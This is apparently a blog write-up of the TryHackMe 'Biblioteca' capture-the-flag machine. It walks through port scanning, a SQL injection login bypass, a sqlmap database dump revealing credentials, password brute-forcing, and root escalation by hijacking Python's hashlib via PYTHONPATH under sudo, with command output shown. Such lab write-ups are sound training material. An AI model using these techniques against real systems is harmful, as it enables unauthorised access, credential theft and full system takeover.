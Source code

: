 ```yaml
---
title: TryHackMe - Biblioteca
author: 0
date: 2023-03-31 17:00:00 +0800
categories: [thm, machine]
tags: [sql-injection, credential-reuse, sudo-l, python-library hijacking]
render_with_liquid: false
---
```

> Shhh. Be very very quiet, no shouting inside the biblioteca.

> Hit 'em with the classics.

This machine starts off with a website containing a login screen.

### Enumeration
```bash
$ nmap -sC -sV  -A  -oN nmap_result 10.10.66.77
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 000bf9bf1d49a6c3fa9c5e08d16d8202 (RSA)
|   256 a10c8e5df07fa532b2eb2f7abfedbf3d (ECDSA)
|_  256 9eefc90afce99eede32db130b65fd40b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap result shows the webserver running on port 8000. When we connect to this port, we can see a login screen. Thinking about the introduction "Hit 'em with the classics.", hints that this is could be an authentication bypass through SQL injection.

### Foothold
 
By using `username=username&password=' or '1'='1` we can bypass the authentication form.

When logged, you only get an index screen that greets a user called "smokey".
We can dump the database by using sqlmap
```bash
$ sqlmap -r request  --dump
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | test@hotmail.com  | test           | test     |
+----+-------------------+----------------+----------+
```

We can use these credential to ssh into the server. This account is very restricted but upon viewing the `/home/` dir we notice there is another user called "hazel". After some trial and error we managed to get access into the "hazel" account by bruteforcing as the account has the password "hazel".

### Privelege Escalation

Both `/home/hazel/user.txt` and `/root/root.txt` flags require root access.
By running `sudo -l`, we can see that hazel can run `sudo /usr/bin/python3 /home/hazel/hasher.py` without needing the root password.
```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

We can see the `hasher.py` script imports the `hashlib` library. We can perform privilege escalation via "Python Library Hijacking"
```bash
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We can run `python3 -c 'import sys; print("\n".join(sys.path))'` to see the order of paths that searches in for its libraries. 
```bash
hazel@biblioteca:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

But this is not important to us as we can just force the `PYTHONPATH` to be where we save our modified version of the `hashlib.py` library.

We move to the `/tmp` dir as we don't have write permissions in our home directory. We create our version of the `hashlib.py` library that will be executed as sudo and calls `/bin/bash`. After running the script with `PYTHONPATH=/tmp` we managed to get root.

```bash
hazel@biblioteca:~$ cd /tmp
hazel@biblioteca:/tmp$ vi hashlib.py
hazel@biblioteca:/tmp$ hashlib.py 
import os

os.system('/bin/bash')
hazel@biblioteca:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
root@biblioteca:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@biblioteca:/tmp# whoami
root
root@biblioteca:/tmp# cat /root/root.txt
THM{**REDACTED**}
root@biblioteca:/tmp# cat /home/hazel/user.txt
THM{**REDACTED**}
root@biblioteca:/tmp# 
```

